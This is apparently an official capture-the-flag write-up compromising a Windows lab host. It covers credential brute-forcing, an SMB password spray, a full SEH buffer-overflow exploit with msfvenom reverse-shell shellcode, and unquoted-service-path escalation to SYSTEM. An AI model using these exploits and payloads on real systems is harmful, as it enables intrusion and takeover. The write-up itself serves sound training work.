# TOAoT

> Official Author Writeup

---

## Reconnaissance

An initial TCP scan was performed to identify the services exposed by the target.

```bash
nmap -p- --open -sS --min-rate 5000 -Pn -n 10.64.165.219 -oN allPorts.txt -oG ports
```

The scan identified several interesting services.

```
80/tcp
445/tcp
3389/tcp
8080/tcp
```

A second scan was performed to identify service versions and run the default NSE scripts.

```bash
nmap -sC -sV -p80,135,139,445,3389,8080,49667 -Pn 10.64.165.219 -On target.txt 

PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Tactical Ops \xE2\x80\x94 Welcome
| http-methods: 
|_  Potentially risky methods: TRACE

135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?

3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=PC-TO
| Not valid before: 2025-12-18T12:33:53
|_Not valid after:  2026-06-19T12:33:53
|_ssl-date: 2025-12-27T05:48:51+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: PC-TO
|   NetBIOS_Domain_Name: PC-TO
|   NetBIOS_Computer_Name: PC-TO
|   DNS_Domain_Name: PC-TO
|   DNS_Computer_Name: PC-TO
|   Product_Version: 10.0.19041
|_  System_Time: 2025-12-27T05:48:12+00:00

8080/tcp  open  http          Unreal Tournament http admin Build 451
| http-title: 401 Unauthorized
|_Requested resource was /ServerAdmin/
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=UT Remote Admin Server

49667/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-12-27T05:48:14
|_  start_date: N/A
```

The results revealed:

- Microsoft IIS 10.0
- SMB
- RDP
- Unreal Tournament Remote Admin Server

The administrative interface running on port **8080** became the primary target during the initial enumeration.

## Web Enumeration

The web application hosted on port **80** exposed only a static landing page.



Using **WhatWeb**, the server was identified as Microsoft IIS 10.

```bash
whatweb http://10.64.165.219
Summary   : HTML5, HTTPServer[Microsoft-IIS/10.0], Microsoft-IIS[10.0]
```

The second HTTP service running on port **8080** redirected users to an Unreal Tournament **ServerAdmin** interface protected by HTTP Basic Authentication.

```bash
whatweb http://10.64.165.219:8080
Summary   : maybe Dell-OpenManage-Switch-Administrator, HTTPServer[UnrealEngine UWeb Web Server Build 451], RedirectLocation[/ServerAdmin/]
```

> ServerAdmin login page



Although common credentials such as **admin:admin** and **test:test** were unsuccessful, inspecting the source code of the main website revealed a reference to the username **lalo**.

>  Source code showing the username



A password brute-force attack against this account successfully identified valid credentials.

```bash
hydra -l lalo -P /usr/share/wordlists/rockyou.txt http-get://10.64.165.219:8080/ServerAdmin/
```

```
login: lalo
password: rebelde
```

The credentials allowed access to the Unreal Tournament administrative panel.

> Successful authentication




## Credential Discovery

While reviewing the administrative interface, an additional credential was discovered.

```
AdminPassword: T4ct1c4l0ps
```

Although this password was not immediately associated with any account, it was kept for later authentication attempts.

> AdminPassword disclosure



## SMB Enumeration

The SMB service was initially enumerated to confirm the operating system.

```bash
nxc smb 10.64.165.219
```

RID brute forcing was then performed to enumerate local users.

```bash
nxc smb ... --rid-brute
```

The enumeration revealed multiple local accounts.

```
tanya
boris
hicks
ivan
...
faka
```

> RID enumeration



Since a password had previously been recovered from the web application, a password spraying attack was performed.

```bash
nxc smb -u users.txt -p T4ct1c4l0ps --continue-on-success
```

One account successfully authenticated.

```
faka
```

The account had access to the **backup** SMB share.

```bash
nxc smb ... --shares

SMB         10.64.165.219   445    PC-TO            Share           Permissions     Remark
SMB         10.64.165.219   445    PC-TO            -----           -----------     ------
SMB         10.64.165.219   445    PC-TO            ADMIN$                          Remote Admin
SMB         10.64.165.219   445    PC-TO            backup          READ            
SMB         10.64.165.219   445    PC-TO            C$                              Default share
SMB         10.64.165.219   445    PC-TO            important                       
SMB         10.64.165.219   445    PC-TO            IPC$            READ            Remote IPC
```

Using smbclient, the share contents were downloaded.

```bash
smbclient //10.64.165.219/backup -U faka

smb: \> dir
  TacticalOps.zip                     A 387948852  Thu Dec 18 19:33:39 2025
```

The archive **TacticalOps.zip** contained the vulnerable executable required for the next stage of the attack.

## Buffer Overflow

After extracting the contents of **TacticalOps.zip**, the archive contained the vulnerable executable required to continue the attack.

> Extracted files

To analyze the vulnerability, the executable was executed inside a dedicated Windows 7 virtual machine configured with **Immunity Debugger** and the **Mona** plugin.

The application exposes a UDP service that responds to Unreal Tournament query packets.

```bash
nc -u 192.168.159.134 7778
\basic\
\\gamename\\ut\\gamever\\451\\minnetver\\432\\location\\0\\queryid\\1.1\\final\\
```


> UDP response



Sending an oversized payload causes the application to crash, confirming the presence of a classic stack-based buffer overflow.

```python
import socket

host = '192.168.159.134'
port = 7778

message = b'\\basic\\'

payload = (
    b'\\secure\\' +
    b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
)

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
sock.settimeout(2)

sock.sendto(message, (host, port))

try:
    data, addr = sock.recvfrom(4096)
    print("Respuesta:", data)
    
    print("[+] Enviando payload...")
    sock.sendto(payload, (host, port))

except socket.timeout:
    print("No hubo respuesta")

finally:
    sock.close()
```


> Initial crash in Immunity Debugger



### Determining the SEH Offset

To determine the exact location where the Structured Exception Handler (SEH) is overwritten, a cyclic pattern was generated using the Metasploit Framework.

```bash
msf-pattern_create -l 1000
```

The generated pattern replaced the previous payload and was sent to the application.

> Crash using cyclic pattern







After the exception was triggered, the values stored in the SEH records were recovered from Immunity Debugger.

```
33634132
63413163
```

These values were used with `msf-pattern_offset` to determine the exact overwrite position.

```bash
msf-pattern_offset -l 1000 -q 63413163
```

```
[*] Exact match at offset 64
```

The SEH overwrite begins after **64 bytes**, which became the offset used throughout the remainder of the exploit.


```python
import socket

host = '192.168.159.134'
port = 7778

message = b'\\basic\\'

payload = (
    b'\\secure\\' +
    b'A' * 64 +
    b'B' * 4 +
    b'C' * 4 +
    b'Z' * 928
)

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
sock.settimeout(2)

sock.sendto(message, (host, port))

try:
    data, addr = sock.recvfrom(4096)
    print("Respuesta:", data)

    print("[+] Enviando payload...")
    sock.sendto(payload, (host, port))

except socket.timeout:
    print("No hubo respuesta")

finally:
    sock.close()
```

> Offset calculation




### Finding a POP/POP/RET Sequence

Since this vulnerability is exploited through Structured Exception Handling (SEH), the next step is to locate a suitable `POP/POP/RET` instruction sequence inside a module without exploit mitigations enabled.

The loaded modules were enumerated using Mona.

```bash
!mona modules
```

>  Mona modules



The module `core.dll` was selected because it does not enable protections such as ASLR or SafeSEH.

Next, Mona was used to search for valid exception handler sequences.

```bash
!mona seh -m core.dll
```



Among the available candidates, the address below was selected.

```
0x10107716
```

```python
import socket
import struct

host = '192.168.159.134'
port = 7778

message = b'\\basic\\'

size = 1000
offset = 64
nSEH = b'B' * 4
SEH = struct.pack('<L', 0x10107716)
fill = b'D' * (size - offset - len(nSEH) - len(SEH))

payload = (
    b'\\secure\\' +
    b'A' * offset +
    nSEH +
    SEH +
    fill
)

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
sock.settimeout(2)

sock.sendto(message, (host, port))

try:
    data, addr = sock.recvfrom(4096)
    print("Respuesta:", data)

    print("[+] Enviando payload...")
    sock.sendto(payload, (host, port))

except socket.timeout:
    print("No hubo respuesta")

finally:
    sock.close()
```

This address was later used as the SEH overwrite value.

> POP/POP/RET result








### Redirecting Execution

Only four bytes are available in the nSEH field, making a short jump the preferred technique for redirecting execution to the controlled buffer.

The required opcode was obtained using the Metasploit NASM shell.

```bash
msf-nasm_shell
nasm > jmp short 8
00000000  EB06              jmp 0x8
```

The resulting instruction was placed in the nSEH field.

```
EB 08 90 90
```

```python
import socket
import struct

host = '192.168.159.134'
port = 7778

message = b'\\basic\\'

size = 1000
offset = 64
# JMP SHORT +0x8 NOPNOP to fill the 4 bytes of nSEH
nSEH = b'\xeb\x08\x90\x90'
SEH = struct.pack('<L', 0x10107716)
fill = b'D' * (size - offset - len(nSEH) - len(SEH))

payload = (
    b'\\secure\\' +
    b'A' * offset +
    nSEH +
    SEH +
    fill
)

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
sock.settimeout(2)

sock.sendto(message, (host, port))

try:
    data, addr = sock.recvfrom(4096)
    print("Respuesta:", data)

    print("[+] Enviando payload...")
    sock.sendto(payload, (host, port))

except socket.timeout:
    print("No hubo respuesta")

finally:
    sock.close()
```


> Successful short jump






### Identifying Bad Characters

To ensure the shellcode is not corrupted during processing, a complete byte array excluding the null byte was generated with Mona.

```bash
!mona bytearray -cpb '\x00'
```

The generated byte array was appended to the payload and inspected in Immunity Debugger.

```python
import socket
import struct

host = '192.168.159.134'
port = 7778

message = b'\\basic\\'

size = 1000
offset = 64
# JMP SHORT +0x8 NOPNOP to fill the 4 bytes of nSEH
nSEH = b'\xeb\x08\x90\x90'
SEH = struct.pack('<L', 0x10107716)
fill = b'D' * (size - offset - len(nSEH) - len(SEH))

badchars = (b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

payload = (
    b'\\secure\\' +
    b'A' * offset +
    nSEH +
    SEH +
    badchars +
    fill
)

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
sock.settimeout(2)

sock.sendto(message, (host, port))

try:
    data, addr = sock.recvfrom(4096)
    print("Respuesta:", data)

    print("[+] Enviando payload...")
    sock.sendto(payload, (host, port))

except socket.timeout:
    print("No hubo respuesta")

finally:
    sock.close()
```

> Byte array in memory





During the comparison, the byte `0x5C` was identified as corrupted.

A new byte array was generated excluding both bad characters.

```bash
!mona bytearray -cpb '\x00\x5C'
```



After repeating the test, all remaining bytes were preserved correctly.

The final bad character list was therefore:

```
00
5C
```

> Final byte comparison

```python
import socket
import struct

host = '192.168.159.134'
port = 7778

message = b'\\basic\\'

size = 1000
offset = 64
# JMP SHORT +0x8 NOPNOP to fill the 4 bytes of nSEH
nSEH = b'\xeb\x08\x90\x90'
SEH = struct.pack('<L', 0x10107716)
fill = b'D' * (size - offset - len(nSEH) - len(SEH))

badchars = (b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5d\x5e\x5f\x60\x61"
b"\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81"
b"\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1"
b"\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1"
b"\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1"
b"\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

payload = (
    b'\\secure\\' +
    b'A' * offset +
    nSEH +
    SEH +
    badchars +
    fill
)

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
sock.settimeout(2)

sock.sendto(message, (host, port))

try:
    data, addr = sock.recvfrom(4096)
    print("Respuesta:", data)

    print("[+] Enviando payload...")
    sock.sendto(payload, (host, port))

except socket.timeout:
    print("No hubo respuesta")

finally:
    sock.close()
```





### Building the Debugging Exploit

With the exploit parameters identified, the reverse TCP shellcode was generated using `msfvenom`.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.159.128 LPORT=4444 EXECFUNC=thread -f python -b '\x00\x5C'
```

The final payload consisted of:

- SEH overwrite
- Short jump
- POP/POP/RET
- NOP sled
- Reverse shellcode

Executing the exploit successfully redirected execution flow to the controlled buffer and spawned a reverse shell.


```python
import socket
import struct

host = '192.168.159.134'
port = 7778

message = b'\\basic\\'

size = 1000
offset = 64
# JMP SHORT +0x8 NOPNOP to fill the 4 bytes of nSEH
nSEH = b'\xeb\x08\x90\x90'
SEH = struct.pack('<L', 0x10107716)
padding = b'\x90' * 16

buf =  b""
buf += b"\xba\x4c\xf1\x15\x7b\xda\xd9\xd9\x74\x24\xf4\x5b"
buf += b"\x33\xc9\xb1\x52\x31\x53\x12\x83\xc3\x04\x03\x1f"
buf += b"\xff\xf7\x8e\x63\x17\x75\x70\x9b\xe8\x1a\xf8\x7e"
buf += b"\xd9\x1a\x9e\x0b\x4a\xab\xd4\x59\x67\x40\xb8\x49"
buf += b"\xfc\x24\x15\x7e\xb5\x83\x43\xb1\x46\xbf\xb0\xd0"
buf += b"\xc4\xc2\xe4\x32\xf4\x0c\xf9\x33\x31\x70\xf0\x61"
buf += b"\xea\xfe\xa7\x95\x9f\x4b\x74\x1e\xd3\x5a\xfc\xc3"
buf += b"\xa4\x5d\x2d\x52\xbe\x07\xed\x55\x13\x3c\xa4\x4d"
buf += b"\x70\x79\x7e\xe6\x42\xf5\x81\x2e\x9b\xf6\x2e\x0f"
buf += b"\x13\x05\x2e\x48\x94\xf6\x45\xa0\xe6\x8b\x5d\x77"
buf += b"\x94\x57\xeb\x63\x3e\x13\x4b\x4f\xbe\xf0\x0a\x04"
buf += b"\xcc\xbd\x59\x42\xd1\x40\x8d\xf9\xed\xc9\x30\x2d"
buf += b"\x64\x89\x16\xe9\x2c\x49\x36\xa8\x88\x3c\x47\xaa"
buf += b"\x72\xe0\xed\xa1\x9f\xf5\x9f\xe8\xf7\x3a\x92\x12"
buf += b"\x08\x55\xa5\x61\x3a\xfa\x1d\xed\x76\x73\xb8\xea"
buf += b"\x79\xae\x7c\x64\x84\x51\x7d\xad\x43\x05\x2d\xc5"
buf += b"\x62\x26\xa6\x15\x8a\xf3\x69\x45\x24\xac\xc9\x35"
buf += b"\x84\x1c\xa2\x5f\x0b\x42\xd2\x60\xc1\xeb\x79\x9b"
buf += b"\x82\xd3\xd6\x3c\xd2\xbc\x24\x42\xc2\x60\xa0\xa4"
buf += b"\x8e\x88\xe4\x7f\x27\x30\xad\x0b\xd6\xbd\x7b\x76"
buf += b"\xd8\x36\x88\x87\x97\xbe\xe5\x9b\x40\x4f\xb0\xc1"
buf += b"\xc7\x50\x6e\x6d\x8b\xc3\xf5\x6d\xc2\xff\xa1\x3a"
buf += b"\x83\xce\xbb\xae\x39\x68\x12\xcc\xc3\xec\x5d\x54"
buf += b"\x18\xcd\x60\x55\xed\x69\x47\x45\x2b\x71\xc3\x31"
buf += b"\xe3\x24\x9d\xef\x45\x9f\x6f\x59\x1c\x4c\x26\x0d"
buf += b"\xd9\xbe\xf9\x4b\xe6\xea\x8f\xb3\x57\x43\xd6\xcc"
buf += b"\x58\x03\xde\xb5\x84\xb3\x21\x6c\x0d\xc3\x6b\x2c"
buf += b"\x24\x4c\x32\xa5\x74\x11\xc5\x10\xba\x2c\x46\x90"
buf += b"\x43\xcb\x56\xd1\x46\x97\xd0\x0a\x3b\x88\xb4\x2c"
buf += b"\xe8\xa9\x9c"


payload = (
    b'\\secure\\' +
    b'A' * offset +
    nSEH +
    SEH +
    padding +
    buf
)

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
sock.settimeout(2)

sock.sendto(message, (host, port))

try:
    data, addr = sock.recvfrom(4096)
    print("Respuesta:", data)

    print("[+] Enviando payload...")
    sock.sendto(payload, (host, port))

except socket.timeout:
    print("No hubo respuesta")

finally:
    sock.close()
```

> Reverse shell

After updating the exploit with the final shellcode, a Netcat listener was started on the attacker's machine.

```bash
nc -lvnp 4444
```

The exploit was then executed against the vulnerable service.

```bash
python3 exploit.py
```

A reverse shell was successfully established.



At this point, arbitrary code execution has been achieved, but the current privileges are insufficient to fully compromise the target system.

The next objective is to escalate privileges to **NT AUTHORITY\SYSTEM**.


### Deploying the Exploit

The exploit was intentionally developed inside an isolated debugging environment. Before using it against the target machine, several parameters must be updated.

While reviewing the contents of the downloaded archive, an additional file named **Readme.txt** provides an important hint.

```text
Internal note:

Repeated failures were linked to overlapping UDP ports.

Avoid using default configurations.

Larger spacing between services (~1000) prevented further issues.
```

>  Readme.txt



The note explains why the vulnerable service is not listening on the default Tactical Ops port used during exploit development. Instead, the exploit must target the UDP port exposed by the target machine.

In addition, the reverse shell payload must be regenerated using the attacker's current IP address.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=IP_ATTACK LPORT=4444 EXECFUNC=thread -f python -b '\x00\x5C'
```

The newly generated shellcode replaces the previous payload used during local debugging.

Finally, the exploit configuration is updated to target the remote host.

After applying these changes, the exploit is ready to be executed against the target machine.

> Updated exploit

```python
import socket
import struct

host = '10.64.165.219'
port = 8778

message = b'\\basic\\'

size = 1000
offset = 64
# JMP SHORT +0x8 NOPNOP to fill the 4 bytes of nSEH
nSEH = b'\xeb\x08\x90\x90'
SEH = struct.pack('<L', 0x10107716)
padding = b'\x90' * 16

buf =  b""
buf += b"\xda\xd0\xbb\xc8\x65\xbf\x98\xd9\x74\x24\xf4\x5f"
buf += b"\x31\xc9\xb1\x52\x31\x5f\x17\x83\xc7\x04\x03\x97"
buf += b"\x76\x5d\x6d\xdb\x91\x23\x8e\x23\x62\x44\x06\xc6"
buf += b"\x53\x44\x7c\x83\xc4\x74\xf6\xc1\xe8\xff\x5a\xf1"
buf += b"\x7b\x8d\x72\xf6\xcc\x38\xa5\x39\xcc\x11\x95\x58"
buf += b"\x4e\x68\xca\xba\x6f\xa3\x1f\xbb\xa8\xde\xd2\xe9"
buf += b"\x61\x94\x41\x1d\x05\xe0\x59\x96\x55\xe4\xd9\x4b"
buf += b"\x2d\x07\xcb\xda\x25\x5e\xcb\xdd\xea\xea\x42\xc5"
buf += b"\xef\xd7\x1d\x7e\xdb\xac\x9f\x56\x15\x4c\x33\x97"
buf += b"\x99\xbf\x4d\xd0\x1e\x20\x38\x28\x5d\xdd\x3b\xef"
buf += b"\x1f\x39\xc9\xeb\xb8\xca\x69\xd7\x39\x1e\xef\x9c"
buf += b"\x36\xeb\x7b\xfa\x5a\xea\xa8\x71\x66\x67\x4f\x55"
buf += b"\xee\x33\x74\x71\xaa\xe0\x15\x20\x16\x46\x29\x32"
buf += b"\xf9\x37\x8f\x39\x14\x23\xa2\x60\x71\x80\x8f\x9a"
buf += b"\x81\x8e\x98\xe9\xb3\x11\x33\x65\xf8\xda\x9d\x72"
buf += b"\xff\xf0\x5a\xec\xfe\xfa\x9a\x25\xc5\xaf\xca\x5d"
buf += b"\xec\xcf\x80\x9d\x11\x1a\x06\xcd\xbd\xf5\xe7\xbd"
buf += b"\x7d\xa6\x8f\xd7\x71\x99\xb0\xd8\x5b\xb2\x5b\x23"
buf += b"\x0c\x7d\x33\x94\x1e\x15\x46\xea\x8f\xba\xcf\x0c"
buf += b"\xc5\x52\x86\x87\x72\xca\x83\x53\xe2\x13\x1e\x1e"
buf += b"\x24\x9f\xad\xdf\xeb\x68\xdb\xf3\x9c\x98\x96\xa9"
buf += b"\x0b\xa6\x0c\xc5\xd0\x35\xcb\x15\x9e\x25\x44\x42"
buf += b"\xf7\x98\x9d\x06\xe5\x83\x37\x34\xf4\x52\x7f\xfc"
buf += b"\x23\xa7\x7e\xfd\xa6\x93\xa4\xed\x7e\x1b\xe1\x59"
buf += b"\x2f\x4a\xbf\x37\x89\x24\x71\xe1\x43\x9a\xdb\x65"
buf += b"\x15\xd0\xdb\xf3\x1a\x3d\xaa\x1b\xaa\xe8\xeb\x24"
buf += b"\x03\x7d\xfc\x5d\x79\x1d\x03\xb4\x39\x2d\x4e\x94"
buf += b"\x68\xa6\x17\x4d\x29\xab\xa7\xb8\x6e\xd2\x2b\x48"
buf += b"\x0f\x21\x33\x39\x0a\x6d\xf3\xd2\x66\xfe\x96\xd4"
buf += b"\xd5\xff\xb2"

payload = (
    b'\\secure\\' +
    b'A' * offset +
    nSEH +
    SEH +
    padding +
    buf
)

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
sock.settimeout(2)

sock.sendto(message, (host, port))

try:
    data, addr = sock.recvfrom(4096)
    print("Respuesta:", data)

    print("[+] Enviando payload...")
    sock.sendto(payload, (host, port))

except socket.timeout:
    print("No hubo respuesta")

finally:
    sock.close()
```


## Initial Access

A Netcat listener was started on the attacker's machine.

```bash
nc -lvnp 4444
```

The updated exploit was executed against the target.

```bash
python3 exploit.py
```

After a few seconds, the reverse shell connected back successfully.

```text
Microsoft Windows [Version 10.0.xxxxx]

C:\Users\spike\TacticalOps\TacticalOps\System>
```

Verifying the current user confirms successful remote code execution.

```cmd
whoami
pc-to\spike
```

The initial user flag can now be retrieved.

```cmd
type C:\Users\spike\Desktop\user.txt
```
> Reverse shell



>User flag



Although arbitrary code execution has been achieved, the compromised account does not yet have administrative privileges. The next objective is to escalate privileges to **NT AUTHORITY\SYSTEM**.


## Privilege Escalation

### Host Enumeration

After obtaining an interactive shell as the low-privileged user, the next objective is to identify a suitable privilege escalation vector.

To speed up the enumeration process, **PowerUp** from the PowerSploit framework was uploaded to the target.

```powershell
Import-Module .\PowerUp.ps1
Invoke-AllChecks
Get-UnquotedService
```

PowerUp performs several common Windows privilege escalation checks, including:

- Unquoted Service Paths
- Weak Service Permissions
- Writable Service Executables
- Registry Misconfigurations
- DLL Hijacking Opportunities

> PowerUp results



### Verifying Directory Permissions

Although PowerUp reports the vulnerable service, it is still necessary to verify that the current user has permission to write files into one of the directories searched by Windows.

The permissions of the service directory were inspected using `icacls`.

```cmd
icacls "C:\Program Files\TO Service"
```

The output confirms that the current user has **Modify** permissions over the service directory, making it possible to place a malicious executable in the vulnerable path.


### Understanding the Vulnerability

The service executable path contains spaces and is not enclosed in quotation marks.

```
C:\Program Files\TO Service\TOService.exe
```

When Windows starts the service, it attempts to resolve the executable by searching each component of the path sequentially.

```
C:\Program.exe
↓

C:\Program Files\TO.exe
↓

C:\Program Files\TO Service\TOService.exe
```

If an attacker can place a malicious executable in one of the searched locations, Windows may execute it before reaching the legitimate service binary.

> Unquoted Service Path



### Exploiting the Service

PowerUp can automatically generate a suitable payload for the vulnerable service.

```powershell
Write-ServiceBinary -Name TOService
```

Alternatively, a custom payload can be generated and copied to the vulnerable location.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=eth0 LPORT=443 -f exe > TOService.exe
```

The generated executable replaced the original service binary.

After replacing the executable, the service was restarted.

### Restarting the Service

Once the malicious binary was in place, the service was restarted.

```cmd
sc stop "TO Service"
sc start "TO Service"
```

A second reverse shell was immediately received, this time running as **NT AUTHORITY\SYSTEM**.

### Obtaining SYSTEM

After restarting the vulnerable service, a second reverse shell was received.

Verifying the security context confirms that the process is now running with **SYSTEM** privileges.

```cmd
whoami
```

```
nt authority\system
```

### Root Flag

With SYSTEM privileges obtained, the final flag can now be retrieved.

```cmd
type C:\Users\Administrator\Desktop\root.txt
```

The final flag confirms complete compromise of the target machine.